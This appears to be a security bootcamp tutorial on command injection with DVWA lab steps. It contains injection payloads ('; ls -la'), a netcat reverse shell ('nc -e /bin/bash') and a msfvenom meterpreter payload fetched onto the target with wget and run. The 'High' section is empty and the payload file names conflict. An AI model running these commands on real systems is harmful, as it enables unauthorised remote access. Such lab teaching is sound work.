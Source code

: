 ## 1. Command Execution/Injection:
- A vulnerability that allows an attacker to execute arbitrary Linux/windows commands in the Input field on a site.

### Real Life Example:
- Imagine a website that allows users to search for files by entering a filename. If the `website doesn't properly sanitize user input`, an attacker could input malicious commands instead of filenames. 
- For instance, if the attacker inputs "; ls -la", it could execute the "ls -la" command on the server, listing all files in the directory.

### How to Avoid it:
```
Implement proper input validation and sanitization techniques.
Use parameterized queries or prepared statements to interact with databases, preventing SQL injection attacks.
Avoid executing system commands based on user input. If unavoidable, use safe APIs or libraries that automatically handle input sanitization.
Apply principle of least privilege, ensuring that application processes have only the necessary permissions to execute specific commands.
Regularly update and patch software to fix known vulnerabilities that could be exploited for command execution.
```

### Practical:
> Security: Low
- Open DVWA > Set Security: Low > Command Execution: `192.168.0.0 ; ls -la` or `192.168.0.0 && ls -la`
- ![image](https://github.com/IOxCyber/ZtoM_Bootcamp/assets/40174034/eb9cd546-bffe-484f-af97-e4c6c44ba878)

- To exploit > Use `natcat/nc` > Listen On Kali: `nc -lvp (Listen, Verbose, Port) 12345` > Execute On DVWA in Command Execution: `192.168.0.0 ; nc -e /bin/bash <kali-IP> <Port>`
> -e /bin/bash: Specifies that Netcat should execute /bin/bash upon successfully establishing a connection. This effectively creates a remote shell (reverse shell) on the target machine.

> Security: Mid
- Open DVWA > Set Security: Low > Command Execution: `192.168.0.0 | ls -la` or `192.168.0.0 & ls -la`
- To exploit
- First: Use `natcat/nc` > Listen On Kali: `nc -lvp (Listen, Verbose, Port) 12345`
- Second: Execute On DVWA in Command Execution: `192.168.0.0 ; nc -e /bin/bash <kali-IP> <Port>`

> Security: High
- The Code should written like this.

## How to Exploit using Metasploit:
- Generate the Payload eg. `msfvenom -p python/meterpreter/reverse_tcp LHOST=<Kali-VM-IP> LPORT=<12345> >> PyPay.py`
- Host the PyPay.py from `/var/www/html` Start the Server eg. `sudo service apache2 start`
- Copy the PyPay.py to the location. Set the Listener in Metasploit `set payload python/meterpreter/reverse_tcp` and `LHOST=<Kali-VM-IP> LPORT=<12345>` and `run`
- Go to DVWA: Command Execution: Transfer the Payload to Target `wget <LHOST-IP>/PayPy.py` > Execute it on Target: `; python PayPy.py`
- DONE!








